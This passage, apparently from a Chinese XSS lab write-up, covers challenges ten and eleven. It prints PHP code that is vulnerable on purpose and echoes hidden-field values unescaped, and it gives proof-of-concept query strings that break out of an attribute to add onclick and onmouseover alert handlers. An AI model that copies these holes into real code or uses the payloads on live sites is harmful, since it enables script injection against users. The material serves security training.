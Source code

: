 ##### 挑战十

发现一个隐藏输入框

![image-20200828155806918](/images/XSS/image-20200828155806918.png)

```php+HTML
//多了个参数、多了一个输入框且已经隐藏、并对<、>括号进行过滤，htmlspecialchars函数过滤
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

```shell
//添加参数并构造PoC
`keyword = test&t_sort="type="text" onclick = "alert(1)`
`keyword = test&t_sort="type="text" onmouseover="alert(1)`
`keyword = test&t_sort="type="text" onmouseover=alert`1``
```

`Result`

![image-20200828160245970](/images/XSS/image-20200828160245970.png)

##### 挑战十一

之前测试发现无效果，查看源码

```javascript
//比之前多了个请求头REFERER进行指定来源
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
